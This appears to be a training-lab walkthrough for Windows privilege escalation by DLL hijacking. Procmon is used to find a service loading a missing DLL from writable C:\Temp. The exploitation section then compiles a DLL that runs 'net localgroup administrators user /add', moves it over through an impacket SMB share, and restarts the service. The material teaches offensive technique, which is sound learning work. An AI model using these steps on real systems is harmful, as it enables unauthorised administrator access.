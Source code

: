 **Detection**

Windows VM

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  
   
   ![[Pasted image 20240207193604.png]]
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.  
   
   ![[Pasted image 20240207193706.png]]
   
1. In the input box on the same line type: 
   
```
dllhijackservice.exe
```

5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  
6. Next, select from the left-most drop down menu ‘Result’.  
7. In the input box on the same line type: 
   
```
NAME NOT FOUND
```

8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  
   
   ![[Pasted image 20240207193919.png]]
   
9. Open command prompt and type: 
   
```
sc start dllsvc
```
  
  ![[Pasted image 20240207194013.png]]
  
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.
    
![[Pasted image 20240207194258.png]]


**Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.
   
   *On Kali*:
	- Open server:
```
python3 /opt/impacket/examples/smbserver.py -smb2support myshare2 .
```

*On Windows*:

	- From the Windows Command Prompt

```
net use \\<IP to your Kali box>\myshare2
```

![[Pasted image 20240207202429.png]]

*Windows Explorer*:

To connect enter the IP address of your Kali box followed by the name of the share:

```
\\<Kali IP>\myshare2
```

![[Pasted image 20240207202543.png]]

Just drag the file you want to move from the first Explorer window to the Explorer Window connected to the share

Kali VM

1. Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```
cmd.exe /k net localgroup administrators user /add
```
  
2. Exit the text editor and compile the file by typing the following in the command prompt:
 
```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

3. Copy the generated file hijackme.dll, to the Windows VM.

Windows VM

1. Place hijackme.dll in ‘C:\Temp’.  
2. Open command prompt and type: **sc stop dllsvc & sc start dllsvc**  
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**

Answer the questions below

Click 'Completed' once you have successfully elevated the machine